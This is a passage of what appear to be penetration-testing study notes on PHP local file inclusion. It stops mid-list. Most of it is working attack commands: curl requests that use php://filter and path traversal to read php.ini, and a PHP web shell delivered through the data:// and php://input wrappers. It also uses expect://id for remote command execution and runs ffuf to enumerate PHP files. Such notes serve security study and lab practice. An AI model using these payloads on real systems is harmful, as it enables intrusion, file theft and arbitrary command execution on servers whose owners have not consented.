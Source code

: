 - 4 types of filters: [String Filters](https://www.php.net/manual/en/filters.string.php), [Conversion Filters](https://www.php.net/manual/en/filters.convert.php), [Compression Filters](https://www.php.net/manual/en/filters.compression.php), and [Encryption Filters](https://www.php.net/manual/en/filters.encryption.php).
- Main parameters for filter wrapper are `resource` and `read`.
	- `resource` To specify the stream we would like to apply our filter on (e.g. local file).
	- `read` To apply different filters on the input resource.
	- The important filter for FI is `convert.base64-encode` filter, under [Conversion Filters](https://www.php.net/manual/en/filters.convert.php).
### Using Wrappers:
- [Data](https://www.php.net/manual/en/wrappers.data.php)
	- Check PHP configurations to see if (`allow_url_include`) setting is enabled.
		``` bash
		curl "http://URL/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini"
		# Then decode the output
		echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include
		```
	- Encode our payload then send it with data wrapper `data://text/plain;base64`
		``` bash
		$ echo '<?php system($_GET["cmd"]); ?>' | base64
		PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+Cg==
		$ curl -s 'http://URL/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id' | grep id
		```
- [Input](https://www.php.net/manual/en/wrappers.php.php)
	- Check PHP configurations to see if (`allow_url_include`) setting is enabled.
	- Send the payload as a POST parameter, so the vulnerable parameter must accept POST request.
		``` bash
		curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://URL/index.php?language=php://input&cmd=id"
		# If the vulnerable function doesn't accept GET parameters, hardcode the command directly in the payload
		curl -s -X POST --data '<?php system("id"); ?>' "http://URL/index.php?language=php://input"
		```
- [Expect](https://www.php.net/manual/en/wrappers.expect.php)
	- Expect wrapper is an external wrapper so it has to be installed and enabled manually.
	- Check PHP configurations like above but `grep expect`, we would get `extension=expect` as result if it's there.
	- Use expect module to gain RCE
		``` bash
		curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"
		```
		
> [!Note]
> If the app vulnerable to LFI but using appended extension to the user input, read the local PHP files carefully. Follow the next example:
1. Fuzz to find PHP files.
   We are not restricted to pages with HTTP response code `200`, as we have local file inclusion access, so we should be scanning for all codes, including `301`, `302` and `403` pages, and we should be able to read their source code as well.
	``` bash
	ffuf -w seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://<SERVER_IP>:<PORT>/FUZZ.php
	index                   [Status: 302, Size: 1343, Words: 1, Lines: 1, Duration: 69ms]
	configure               [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 69ms]
	```
2. Using PHP wrapper with convert filter to encode the content of the file so it doesn't get executed then decode the output.
	``` bash